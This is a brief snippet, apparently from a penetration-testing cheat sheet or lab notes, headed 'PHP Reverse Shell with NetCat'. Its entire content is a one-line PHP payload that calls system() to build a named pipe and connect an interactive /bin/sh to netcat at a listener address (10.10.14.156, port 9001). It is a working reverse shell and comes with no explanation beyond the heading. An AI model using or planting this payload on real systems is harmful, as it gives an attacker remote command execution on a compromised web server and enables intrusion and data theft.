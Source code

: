 #### PHP Reverse Shell with NetCat
```php
<?php system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.156 9001 >/tmp/f'); ?>
```
